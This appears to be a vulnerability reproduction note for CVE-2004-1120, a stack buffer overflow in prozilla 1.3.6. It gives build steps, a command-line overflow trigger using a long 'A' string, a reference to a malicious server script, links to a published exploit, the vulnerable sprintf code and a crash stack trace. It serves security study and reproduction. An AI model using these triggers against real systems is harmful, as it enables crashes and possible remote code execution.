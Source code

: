 # CVE-2004-1120

## Experiment Environment

Ubuntu 14.04 LTS

Ubuntu 11.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2004-1120/prozilla-1.3.6.tar.gz

tar -xvf prozilla-1.3.6.tar.gz
cd prozilla-1.3.6

./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

### Method1:

```
prozilla-1.3.6/src/proz http://www.google.com/`perl -e 'print "A"x2580'`
```

### Method2:

```
perl evil_server.pl
prozilla-1.3.6/src/proz http://localhost:8080/abc
```

## PoCs

[Prozilla 1.3.6 - Remote Stack Overflow](https://www.exploit-db.com/exploits/652/)

[www-client/prozilla: multiple vulnerabilitie](https://bugs.gentoo.org/show_bug.cgi?id=70090#c3)

## Vulnerability Details & Patch

### Root Cause

```
http.c:378

	sprintf(buffer,
            "HEAD %s HTTP/1.0\r\nUser-Agent: %s%s\r\nHost: %s\r\nAccept: */*\r\n%s%s\r\n",
            u->path, PACKAGE_NAME, VERSION, u->host,
            referer ? referer : "",
            wwwauth ? wwwauth : "");
```

### Stack Trace

```
(gdb) info stack
#0  0x0805412e in ?? ()
#1  0x083af3fb in ?? ()
#2  0x080540d7 in ?? ()
#3  0x41414141 in ?? ()
#4  0x41414141 in ?? ()
#5  0x41414141 in ?? ()
#6  0xbfe44534 in ?? ()
#7  0x41414141 in ?? ()
#8  0x41414141 in ?? ()
#9  0x41414141 in ?? ()
```

## References
